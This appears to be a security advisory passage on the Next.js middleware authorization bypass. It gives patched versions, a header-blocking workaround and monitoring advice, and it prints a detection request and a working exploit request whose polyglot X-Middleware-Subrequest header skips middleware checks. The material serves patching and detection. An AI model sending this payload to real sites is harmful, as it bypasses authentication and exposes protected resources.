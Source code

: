 ### Recommendations
- **Upgrade Next.js:** Immediately update to the patched versions: 15.2.3+ for 15.x, 14.2.25+ for 14.x, and 13.5.9+ for 13.x.
- **Implement Workaround (if patching is infeasible):** Prevent external requests with the `x-middleware-subrequest` header from reaching your Next.js application. This can be done at the web server or CDN level.
- **Review Middleware Usage:** Understand how middleware is used in your Next.js application, especially for sensitive functions like authentication and authorization.
- **Monitor for Suspicious Headers:** Implement monitoring to detect requests containing the `x-middleware-subrequest` header, especially with unexpected or malicious values.

### Hunting methods
The Assetnote team suggests the following HTTP requests for detecting the vulnerability:

**Initial Detection Request:**
```http
GET / HTTP/2
Host: target
Accept-Encoding: gzip, deflate, br
X-Nextjs-Data: 1
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
```
**Logic:** This request includes the `X-Nextjs-Data: 1` header to potentially elicit an `x-nextjs-redirect`, `x-middleware-rewrite`, or `x-nextjs-rewrite` header in the 307 redirect response if middleware is active and performing a redirect or rewrite.

**Exploit Payload Request:**
If the initial request indicates the presence of middleware redirection or rewriting, the following request can be sent to attempt the bypass:
```http
GET / HTTP/2
Host: target
Accept-Encoding: gzip, deflate, br
X-Nextjs-Data: 1
X-Middleware-Subrequest: src/middleware:nowaf:src/middleware:src/middleware:src/middleware:src/middleware:middleware:middleware:nowaf:middleware:middleware:middleware:pages/_middleware
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Cache-Control: max-age=0
```
**Logic:** This request includes the `X-Middleware-Subrequest` header with a polyglot payload designed to cover various potential middleware configurations and bypass the logic in different Next.js versions. A successful bypass might result in a HTTP 200 OK response on a protected resource.

**General Hunting:** Security teams can monitor web server logs and network traffic for the presence of the `x-middleware-subrequest` header in incoming requests. Unexpected or excessively long values for this header, especially those containing repetitions of "middleware", "src/middleware", or "pages/_middleware", should be investigated.
